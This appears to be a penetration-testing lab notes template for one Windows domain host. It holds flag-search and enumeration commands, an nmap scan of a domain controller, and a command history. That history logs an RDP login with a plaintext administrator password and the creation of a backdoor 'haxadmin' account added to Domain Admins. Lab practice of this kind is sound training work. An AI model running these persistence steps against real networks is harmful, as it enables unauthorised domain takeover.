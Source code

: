 # 172.16.112.7
# Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`
- C:\Users\Administrator\Desktop\proof.txt

# Accounts
### username / password
`<connection method>`   
`whoami /priv`
```

```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 172.16.164.6 --top-ports 1000`
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-24 04:46:33Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: relia.com0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: relia.com0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC02; OS: Windows; CPE: cpe:/o:microsoft:windows

```
`sudo nmap -A -T4 -p- 172.16.112.7`
```

```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```

```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.159.121:80 -w /usr/share/wordlists/dirb/big.txt -p pattern`
```

```

# Command History
```c
xfreerdp3 /u:Administrator /p:'vau!XCKjNQBv2$' /v:172.16.164.6 

Import-Module ActiveDirectory

Get-ADComputer -Filter * -Property Name | 
ForEach-Object {
    $ip = (Resolve-DnsName $_.Name -ErrorAction SilentlyContinue | Where-Object {$_.Type -eq "A"}).IPAddress
    [PSCustomObject]@{ Hostname = $_.Name; IP = $ip }
}

    Hostname IP
    -------- --
    MAIL     172.16.164.5
    DC02     172.16.164.6
    INTRANET 172.16.164.7
    WK01     172.16.164.14
    WK02     172.16.164.15
    FILES    172.16.164.21
    WEBBY    172.16.164.30
    LOGIN    172.16.164.254

// create domain admin password is password i think
New-ADUser -Name "haxadmin" -AccountPassword (ConvertTo-SecureString 'P@ssw0rd!' -AsPlainText -Force) -Enabled $true -PasswordNeverExpires $true
Add-ADGroupMember -Identity "Domain Admins" -Members haxadmin

Set-ADAccountPassword -Identity "haxadmin" -NewPassword (ConvertTo-SecureString -AsPlainText "P@ssw0rd!" -Force)
```
